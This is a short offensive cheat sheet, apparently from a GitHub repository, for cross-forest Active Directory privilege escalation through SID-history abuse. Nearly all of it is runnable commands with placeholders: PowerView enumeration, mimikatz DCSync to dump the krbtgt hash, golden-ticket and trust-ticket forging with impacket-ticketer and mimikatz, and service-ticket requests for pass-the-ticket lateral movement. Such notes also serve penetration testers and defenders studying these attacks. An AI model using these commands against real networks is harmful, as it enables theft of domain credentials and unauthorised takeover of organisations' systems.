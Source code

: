 # Forest to Forest - Extra SID (SID History \ TREAT_AS_EXTERNAL)

#### 1) Golden Ticket

 - Get-DomainSID -Domain DOMAIN (Powerview)

 - Get-DomainSID -Domain TARGET_DOMAIN (Powerview)

 - Get-DomainGroupMember -Identity "GROUP" -Domain TARGET_DOMAIN (SID filtering, Find group with SID > 1000) (Powerview)

 - impacket-ticketer -nthash KRBTGT_HASH -domain-sid FROM_DOMAIN_SID -domain FROM_DOMAIN -extra-sid TO_DOMAIN-GROUP_ID goldenuser (Group ID must be > 1000)

## OR 

 - mimikatz lsadump::dcsync /domain:DOMAIN /user:DOMAIN\krbtgt

 - mimikatz kerberos::golden /user:Administrator /krbtgt:KRBTGT_HASH /domain:DOMAIN /sid:USER_SID /sids:ROOT_DOMAIN_SID-GROUP_SID_SUP_1000 /ptt

#### 2) Trust Ticket

### Get the trust ticket in the ntds (TARGET_DOMAIN$)

 - impacket-ticketer -nthash TRUST_KEY -domain-sid FROM_DOMAIN_SID -domain FROM_DOMAIN -extra-sid TO_DOMAIN-GROUP_ID -spn krbtgt/TO_DOMAIN trustuser (Group id must be > 1000)

 - impacket-getST -k -no-pass -spn cifs/DC_FQDN PARENT_DOMAIN/trustfakeuser@PARENT_DOMAIN -debug

### With both these attacks we perform lateral movement with Pass-the-Ticket
